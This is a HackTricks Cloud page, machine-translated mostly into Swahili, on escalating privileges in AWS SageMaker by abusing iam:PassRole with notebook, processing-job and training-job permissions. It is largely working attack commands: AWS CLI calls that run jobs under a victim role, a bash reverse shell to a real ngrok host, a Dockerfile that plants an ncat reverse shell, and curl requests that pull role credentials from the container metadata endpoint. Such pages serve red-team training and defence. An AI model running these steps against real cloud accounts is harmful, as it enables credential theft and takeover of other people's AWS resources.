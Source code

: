 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Anza kuunda notebook na IAM Role ili kufikia iliyoambatanishwa nayo:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Majibu yanapaswa kuwa na uwanja wa `NotebookInstanceArn`, ambao utakuwa na ARN ya mfano wa notebook mpya ulioanzishwa. Tunaweza kisha kutumia API ya `create-presigned-notebook-instance-url` kuunda URL ambayo tunaweza kutumia kufikia mfano wa notebook mara itakapokuwa tayari:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigate to the URL with the browser and click on \`Open JupyterLab\` in the top right, then scroll down to “Launcher” tab and under the “Other” section, click the “Terminal” button.

Sasa inawezekana kufikia akreditivu za metadata za IAM Role.

**Madhara Yanayoweza Kutokea:** Privesc kwa huduma ya sagemaker iliyotajwa.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Ikiwa kuna Jupyter **notebooks tayari zinaendesha** kwenye hiyo na unaweza kuorodhesha hizo kwa `sagemaker:ListNotebookInstances` (au kuzipata kwa njia nyingine yoyote). Unaweza **kuunda URL kwa ajili yao, kuzipata, na kuiba akreditivu kama ilivyoonyeshwa katika mbinu ya awali**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Madhara Yanayoweza Kutokea:** Privesc kwa jukumu la huduma ya sagemaker lililounganishwa.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Mshambuliaji mwenye ruhusa hizo anaweza kufanya **sagemaker kutekeleza processingjob** ikiwa na jukumu la sagemaker lililounganishwa. Mshambuliaji anaweza kuashiria ufafanuzi wa kontena ambalo litakimbizwa katika **AWS managed ECS account instance**, na **kuchukua hati za ruhusa za jukumu la IAM lililounganishwa**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Madhara Yanayoweza Kutokea:** Privesc kwa huduma ya sagemaker iliyotajwa.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Mshambuliaji mwenye ruhusa hizo ataweza kuunda kazi ya mafunzo, **ikiendesha kontena chochote** juu yake na **jukumu lililounganishwa** nalo. Hivyo, mshambuliaji ataweza kuiba akidi za jukumu hilo.

{% hint style="warning" %}
Hali hii ni ngumu zaidi kutekeleza kuliko ile ya awali kwa sababu unahitaji kuunda picha ya Docker ambayo itatuma rev shell au creds moja kwa moja kwa mshambuliaji (huwezi kuashiria amri ya kuanzia katika usanidi wa kazi ya mafunzo).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Madhara Yanayoweza Kutokea:** Privesc kwa jukumu la huduma ya sagemaker lililotajwa.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Mshambuliaji mwenye ruhusa hizo ataweza (kwa uwezekano) kuunda **kazi ya mafunzo ya hyperparameter**, **akikimbia kontena chochote** juu yake na **jukumu lililounganishwa** nalo.\
&#xNAN;_&#x49; sijaweza kutumia kwa sababu ya ukosefu wa muda, lakini inaonekana kama matumizi ya awali, jisikie huru kutuma PR yenye maelezo ya matumizi._

## Marejeleo

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

